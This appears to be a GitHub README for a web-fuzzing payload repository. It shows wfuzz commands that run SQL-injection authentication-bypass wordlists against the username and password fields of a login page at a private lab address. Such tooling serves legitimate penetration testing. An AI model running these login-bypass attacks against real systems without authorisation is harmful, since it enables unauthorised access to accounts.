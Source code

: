 # web-fuzzing-payloads
Use this payloads to web fuzzing test  

Usage

web-fuzzing-payloads/sqli/auth_bypass_sqli.txt
-----------------------------------------------
wfuzz -c --hh=10 -u http://172.16.76.158:8080/login.php -w auth_bypass_sqli.txt -d "username=FUZZ&password=sa1"

wfuzz -c --hh=10 -u http://172.16.76.158:8080/login.php -w auth_bypass_sqli.txt -d "username=sayaa&password=FUZZ"

wfuzz -c --hh=10 -u http://172.16.76.158:8080/login.php -z file,auth_bypass_sqli.txt -z file,auth_bypass_sqli.txt -d "username=FUZZ&password=FUZ2Z"

web-fuzzing-payloads/sqli/auth_bypass_with_hash_check_sqli.txt
--------------------------------------------------------------
wfuzz -c --hh=10 -u http://172.16.76.158:8080/login.php -w auth_bypass_with_hash_check_sqli.txt -d "username=FUZZ&password=password123"
